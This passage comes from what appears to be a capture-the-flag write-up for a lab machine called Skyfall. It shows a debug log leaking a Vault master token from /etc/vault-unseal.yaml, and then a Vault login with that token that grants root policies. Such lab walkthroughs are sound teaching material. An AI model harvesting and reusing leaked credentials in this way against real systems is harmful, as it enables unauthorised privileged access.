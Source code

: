 It created `debug.log`, but because of where it’s stored, it’s owned by askyy:

```

askyy@skyfall:/dev/shm/out$ ls -l
total 4
-rw------- 1 askyy askyy 590 Aug 27 18:34 debug.log

```

### Admin Vault

#### debug.log

The `debug.log` file leads the token being used with it:

```

askyy@skyfall:/dev/shm/out$ cat debug.log 
2024/08/27 18:34:49 Initializing logger...
2024/08/27 18:34:49 Reading: /etc/vault-unseal.yaml
2024/08/27 18:34:49 Security Risk!
2024/08/27 18:34:49 Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
2024/08/27 18:34:49 Found Vault node: http://prd23-vault-internal.skyfall.htb
2024/08/27 18:34:49 Check interval: 5s
2024/08/27 18:34:49 Max checks: 5
2024/08/27 18:34:49 Establishing connection to Vault...
2024/08/27 18:34:49 Successfully connected to Vault: http://prd23-vault-internal.skyfall.htb
2024/08/27 18:34:49 Checking seal status
2024/08/27 18:34:49 Vault sealed: false

```

#### Login

This token works via the `vault login` command:

```

oxdf@hacky$ vault login
Token (will be hidden): 
Success! You are now authenticated. The token information displayed below
is already stored in the token helper. You do NOT need to run "vault login"
again. Future Vault requests will automatically use this token.
                                               
Key                  Value                                                                    
---                  -----  
token                hvs.I0ewVsmaKU1SwVZAKR3T0mmG                
token_accessor       bXBeXR3r92WGQ8XgEDx6pIFu                                                 
token_duration       ∞                         
token_renewable      false
token_policies       ["root"]               
identity_policies    []       
policies             ["root"]

```
